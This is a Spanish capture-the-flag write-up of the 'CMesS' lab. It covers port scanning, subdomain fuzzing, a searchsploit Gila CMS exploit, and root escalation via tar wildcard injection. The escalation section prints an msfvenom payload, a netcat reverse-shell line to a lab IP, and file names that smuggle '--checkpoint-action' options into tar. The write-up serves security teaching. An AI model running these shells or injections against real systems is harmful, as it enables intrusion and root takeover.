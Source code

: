 # CMesS

Comenzamos realizando un escaneo de puertos en la máquina objetivo.

```bash
nmap -sV -sC -p- -T4 <ip>
```

* -sV: Sondeo de puertos abiertos para determinar la información del servicio/versión
* -sC: equivalente a _--script=default_.
* -p-: Escanea todos los puertos de la Red (65536)
* -T4: La velocidad de escaneo de puertos.

Se han identificado varios puertos abiertos en el sistema: el puerto `22` para `ssh`, el `80` para el puerto `HTTP`.

<figure><img src="../.gitbook/assets/CMesS/nmap.png" alt=""><figcaption></figcaption></figure>

Comenzamos con la web, ya que es el único puerto al que podemos acceder sin credenciales. En la web descubrimos que utiliza `GILA`, buscamos `exploits` pero no encontramos nada útil, y además, las páginas estaban llenas de directorios que no nos llevaban a ninguna parte.

<figure><img src="../.gitbook/assets/CMesS/dirsearch.png" alt=""><figcaption></figcaption></figure>

Comenzamos a buscar nombres de `DNS` para ver si encontrábamos algo, y efectivamente, así fue como descubrimos una página repleta de correos y una contraseña para `andre@cmess.thm`.

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://cmess.thm -H "Host:FUZZ.cmess.thm" -fl 108
```

<figure><img src="../.gitbook/assets/CMesS/fuff.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/CMesS/dev.png" alt=""><figcaption></figcaption></figure>


Una vez que logramos conectarnos a la página de `administración`, comenzamos la explotación para encontrar una forma de obtener una `shell` dentro del servidor. 

<figure><img src="../.gitbook/assets/CMesS/admin.png" alt=""><figcaption></figcaption></figure>


Buscamos un exploit y podemos utilizar el siguiente comando.

```
searchsploit gila 
```

Y deberían aparecer estos resultados; el primero es perfecto para encontrar una forma de acceder al servidor.

<figure><img src="../.gitbook/assets/CMesS/searchsploit.png" alt=""><figcaption></figcaption></figure>

Para descargarlo, solo necesitamos utilizar el siguiente comando:

```
searchsploit -m php/webapps/51569.py
```

Lo ejecutamos con :

```
python3 51569.py
```

Y simplemente completamos los datos que se nos solicitan.

<figure><img src="../.gitbook/assets/CMesS/exploe.png" alt=""><figcaption></figcaption></figure>

Con el oyente configurado en el puerto que especificamos, podemos obtener una `shell` en el servidor.

<figure><img src="../.gitbook/assets/CMesS/id.png" alt=""><figcaption></figcaption></figure>

# \www-data

Después de realizar la enumeración con `linpeas.sh` y `pspy64`, nos damos cuenta de que en `pspy64` no hay ningún proceso en ejecución que podamos manipular. Sin embargo, al usar `linpeas.sh`, encontramos una copia de seguridad ubicada en `/opt`.

<figure><img src="../.gitbook/assets/CMesS/nack.png" alt=""><figcaption></figcaption></figure>

Aquí podemos encontrar la copia de seguridad de la contraseña de `andre`.

<figure><img src="../.gitbook/assets/CMesS/adnres.png" alt=""><figcaption></figcaption></figure>


```
su andre
```

<figure><img src="../.gitbook/assets/CMesS/andreid.png" alt=""><figcaption></figcaption></figure>

Ingresamos la contraseña que se encontró y logramos acceder, donde encontramos el archivo `user.txt`.


<figure><img src="../.gitbook/assets/CMesS/user.png" alt=""><figcaption></figcaption></figure>

# \andre

Al realizar la enumeración de `www-data`, también observamos un proceso de `crontab` que guarda una copia de seguridad del directorio de `andre`. La línea correspondiente es la siguiente:

```
cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

<figure><img src="../.gitbook/assets/CMesS/crontab.png" alt=""><figcaption></figcaption></figure>


Con un poco de investigación, podemos darnos cuenta de que se trata de un ataque relacionado con los comodines de `tar`.

{% embed url="https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/wildcards-spare-tricks.html?highlight=tar#gnu-tar-linux-bsd-busybox-full" %}

*El nombre del ataque es Inyección de comodines, y es una forma de hacer que tar ejecute un ejecutable para nosotros. Dado que el servicio de copia de seguridad se ejecuta como root, si hacemos de este ejecutable un shell inverso, entonces obtenemos un shell root.*

Con `msfvenom`, podemos crear nuestro payload.

```
msfvenom -p cmd/unix/reverse_netcat LHOST=10.9.2.64 LPORT=4243 R
```

<figure><img src="../.gitbook/assets/CMesS/msfvenom.png" alt=""><figcaption></figcaption></figure>

Ahora debemos dirigirnos a la carpeta donde se realiza la copia de seguridad de `andre` para implantar nuestro `payload`.

```
echo 'mkfifo /tmp/dcnvzdd; nc 10.9.2.64 4243 0</tmp/dcnvzdd | /bin/sh >/tmp/dcnvzdd 2>&1; rm /tmp/dcnvzdd' > shell.sh
```

Y creamos lo que los siguientes pasos:

```
echo "" > "--checkpoint-action=exec=sh shell.sh"
```

```
echo "" > --checkpoint=1
```

<figure><img src="../.gitbook/assets/CMesS/shekll.png" alt=""><figcaption></figcaption></figure>


Cuando `root` ejecute el comando `tar -zcf /tmp/andre_backup.tar.gz *`, obtendremos nuestra `shell` como `root` y el último archivo necesario para completar el laboratorio, `root.txt`.

<figure><img src="../.gitbook/assets/CMesS/rott.png" alt=""><figcaption></figcaption></figure>

----

>*No era lo que eran los demás. No vi lo que otros vieron, pero por eso, lo que amaba, amé solo.* ~ **Edgar Allan Poe**
>
>*Esto refleja el destino de un espíritu condenado a la soledad. Desde temprana edad,me di cuenta de que no compartía la misma visión que los mortales a mi alrededor. Mientras todos estaban cautivados por el brillo superficial de la vida, yo ofrecía mis umbrales, mis sombras y mis secretos más profundos. Esto me convirtió en un extraño entre los hombres, un exiliado de la normalidad.*
>
>*Lo que ellos consideraban hermoso me sonaba trivial, y lo que a mí me fascinaba, nadie se atrevía a contemplar. Así, el amor que llevaba dentro no era un coro de voces, sino un cántico solitario nacido de experiencias íntimas e intransmisibles.* 
>
>*Esa soledad no solo es dolorosa, sino también reveladora, un presagio que solo el fumador de opio comprende, perdido entre sueños y abismos. Porque amar es contemplar un mundo que existe solo para quien ha cruzado la sombra, y es allí donde florece la verdadera poesía. En el corazón que deambula entre mis umbrales, se encuentra la belleza en el aislamiento y el vértigo de la propia visión.*
>
><figure><img src="../.gitbook/assets/CMesS/touthou.png" alt=""><figcaption></figcaption></figure>
